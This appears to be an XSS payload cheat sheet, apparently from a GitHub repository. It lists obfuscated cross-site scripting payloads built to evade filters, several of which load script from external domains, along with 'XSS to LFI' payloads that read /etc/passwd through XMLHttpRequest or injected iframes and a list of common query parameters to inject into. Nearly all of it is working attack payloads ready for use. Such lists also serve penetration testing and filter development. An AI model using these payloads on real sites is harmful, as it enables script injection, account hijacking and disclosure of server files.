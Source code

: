 ```xml
<d3"<"/onclick="1>[confirm``]"<">z
<d3/onmouseenter=[2].find(confirm)>z
<details open ontoggle=confirm()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
<a href="javascript%26colon;alert(1)">click
<a href=javas&#99;ript:alert(1)>click
<script/"<a"/src=data:=".<a,[8].some(confirm)>
<svg/x=">"/onload=confirm()//
<--`<img/src=` onerror=confirm``> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg </onload ="1> (_=prompt,_(1)) "">
<!--><script src=//14.rs>
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<svg onload=write()>
```

### XSS to LFI

#### most common payloads
`<script>`
```js
<script>
    x=new XMLHttpRequest;
    x.onload=function(){
        document.write(this.responseText)
    };
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
```
`<iframe>`
```js
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```
`<script>` and `<iframe>` with `document.write`
```js
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
```
### Top XSS dorks
```http
?q={payload}
?s={payload}
?search={payload}
?id={payload}
?lang={payload}
?keyword={payload}
?query={payload}
?page={payload}
?keywords={payload}
?year={payload}
?view={payload}
?email={payload}
?type={payload}
?name={payload}
?p={payload}
?month={payload}
?immagine={payload}
```